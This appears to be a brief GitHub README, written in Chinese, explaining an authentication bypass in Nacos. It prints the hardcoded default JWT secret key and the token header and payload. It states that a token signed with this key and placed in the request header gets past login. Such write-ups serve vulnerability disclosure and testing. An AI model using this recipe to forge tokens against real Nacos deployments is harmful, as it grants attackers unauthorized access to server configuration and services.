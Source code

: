 # Nacos-auth-bypass

Nacos 身份认证绕过

原理:
JWT SECRET.KEY硬编码

由补丁可知：
nacos.core.auth.plugin.nacos.token.secret.key=SecretKey012345678901234567890123456789012345678901234567890123456789

JWT构成：base64编码的header.base64编码的payload+hmac(f(header,payload,key))

由于key硬编码，因此可以根据header+payload构造hmac  通过签名认证
header：
{
  "alg": "HS256"
}

payload：
{
  "sub": "nacos",
  "exp": 1678806359   //这里是时间戳
}

key=SecretKey012345678901234567890123456789012345678901234567890123456789
据此构造json web token 添加到请求头   即可绕过登录认证
